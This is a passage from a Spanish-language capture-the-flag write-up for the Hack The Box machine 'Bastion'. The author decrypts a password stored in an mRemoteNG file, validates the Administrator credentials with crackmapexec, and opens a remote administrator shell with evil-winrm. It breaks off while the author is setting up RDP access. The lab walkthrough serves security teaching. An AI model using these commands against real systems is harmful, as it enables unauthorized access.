 Me dirijo a la ruta y efectivamente encontramos el archivo.

![](https://lh6.googleusercontent.com/6zd7IeQrZvSSNA4Dd5V0g8azRxcmsgylQvggglVAq7IXufxdnY_dsN79kQP08KHOQDNMscqL0q00ORB9thaT9BjI7vwtY-M6dm6nzvdaCmN48Ieg0s_d-gSpSIkqghsmaAYxm0gS)

Rápidamente lo paso a mi maquina y  comienzo a analizarlo.

![](https://lh5.googleusercontent.com/TEAIRdl2HpPF3Yleq52IxjWTG65zLFw8xiYh0Gd8yQVCtcHYNcccFCkZD7syjpU9EJVyDV8peDFAFuJ_QjfWHgEtMUf-Z5lRWYt1AjYkcTM7ufx9JXdPwi4dTht9aMyelKs5AIjQ)

No es de esperar que la contraseña se encuentre cifrada.

# Descifrando la contraseña.

Buscando en Internet encontré la siguiente herramienta: [mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt).

Abro una terminal y ejecuto el siguiente comando.
```console
intrusionz3r0@kali:~$ python mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
Password: thXLHM96BeKL0ER2
```

# Shell como System.

Ahora que tenemos unas credenciales podemos validarlas con crackmapexec.

```console
cme smb bastion.htb -u "Administrator" -p "thXLHM96BeKL0ER2"
SMB         10.10.10.134    445    BASTION          [*] Windows Server 2016 Standard 14393 x64 (name:BASTION) (domain:Bastion) (signing:False) (SMBv1:True)
SMB         10.10.10.134    445    BASTION          [+] Bastion\Administrator:thXLHM96BeKL0ER2 (Pwn3d!)
```

Después solo nos autenticamos con las credenciales al servicio winrm.

```console
intrusionz3r0@kali:~$ evil-winrm -i bastion.htb -u "Administrator" -p "thXLHM96BeKL0ER2"                          

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
bastion\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
# Escritorio Remoto.

Antes de terminar me gustaría conectarme de manera remota a la máquina, para ello creo una regla de firewall que permita el trafico de entrada y salida por el puerto 3389.
